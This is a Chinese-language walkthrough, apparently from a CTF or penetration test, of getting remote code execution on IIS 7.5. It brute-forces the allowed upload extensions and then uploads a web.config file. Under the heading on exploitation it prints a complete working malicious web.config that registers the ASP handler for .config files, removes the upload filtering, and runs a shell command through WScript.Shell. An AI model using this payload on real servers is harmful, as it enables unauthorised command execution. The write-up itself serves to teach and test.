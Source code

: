 使用BP，截断上传页面信息，**使用intruder，爆破扩展名，发现允许上传的扩展名包括:gif,jpg,png,config。**

在谷歌上搜索**IIS httpd 7.5 upload rce**，可以看看这两篇文章：

[Upload a web.config File for Fun & Profit](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

[通过上传 web.config 进行 RCE](https://003random.com/posts/archived/2018/05/22/rce-by-uploading-a-web-config/)

如何简单理解呢？上传 .htaccess 文件以绕过上传文件的保护是一种已知技术，在这里上传web.config的作用和.htaccess类似。有时 IIS 支持 ASP 文件，但无法上传任何扩展名为 .ASP 的文件。在这种情况下，可以直接使用web.config文件来运行ASP经典代码。

> 什么是 web.config 文件？
> 
> web.config 文件是用于配置 ASP.NET 网站或 Web 应用程序的 XML 格式配置文件。它通常位于网站的根目录中，并包含了许多配置设置，例如数据库连接字符串、会话状态配置、身份验证设置、授权规则、错误处理方式以及其他与网站功能相关的设置。通过编辑 web.config 文件，开发人员可以对网站的行为进行广泛的调整和定制，而无需修改源代码。

# 漏洞利用

上传一个web.config文件，在注释里执行asp代码

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("ipconfig")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>

-–>
```
